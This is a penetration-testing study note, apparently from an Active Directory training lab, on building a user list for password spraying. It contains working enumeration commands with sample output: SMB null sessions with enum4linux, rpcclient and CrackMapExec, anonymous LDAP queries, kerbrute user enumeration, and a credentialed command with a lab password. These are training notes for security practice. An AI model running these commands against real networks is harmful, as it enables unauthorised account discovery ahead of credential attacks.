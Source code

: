 # Password Spraying - Making a Target User List ACTIVE Directory

* By leveraging an SMB NULL session
  * retrieve a complete list of domain users from the domain controller
* Utilizing an LDAP anonymous bind to query LDAP anonymously
  * pull down the domain user list
* Use tool such as
  *   [kerbrute.md](kerbrute.md "mention") to validate users utilizing a word list

      * from a source such as the
        * [linkedin2username.md](linkedin2username.md "mention")
        * [statistically-likely-usernames.md](statistically-likely-usernames.md "mention")
      * [llmnr-poisoning.md](llmnr-poisoning.md "mention")

      \




### Using enum4linux

#### SMB NULL Session to Pull User List

```shell-session
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```

```shell-session
administrator
guest
krbtgt
```



### Using rpcclient

#### SMB NULL Session to Pull User List

```shell-session
 rpcclient -U "" -N 172.16.5.5
```

```shell-session
enumdomusers 
```

```
rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers user:[administrator] rid:[0x1f4] user:[guest] rid:[0x1f5]
```



### Using CrackMapExec --users Flag

#### SMB NULL Session to Pull User List



```shell-session
crackmapexec smb 172.16.5.5 --users
```





```
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain user(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\administrator                  badpwdcount: 0 baddpwdtime: 2022-01-10 13:23:09.463228
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\guest                          badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\lab_adm
```





### Gathering Users with LDAP Anonymous

* Some examples include windapsearch and ldapsearch.

#### Using ldapsearch

```
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

### Using windapsearch

[windapsearch.md](windapsearch.md "mention")

### Enumerating Users with Kerbrute

* look into [statistically-likely-usernames.md](statistically-likely-usernames.md "mention") for username list
  * [linkedin2username.md](linkedin2username.md "mention")
  * jsmith.txt is from this list

```shell-session
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt 
```

* &#x20;Using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768)
  * will be triggered if [Kerberos event logging](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging) is enabled via Group Policy





### Credentialed Enumeration to Build our User List

* With valid credentials,
  * can use any of the tools stated previously to build a user list. A quick and easy way is using CrackMapExec.

**Using CrackMapExec with Valid Credentials**

```shell-session
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
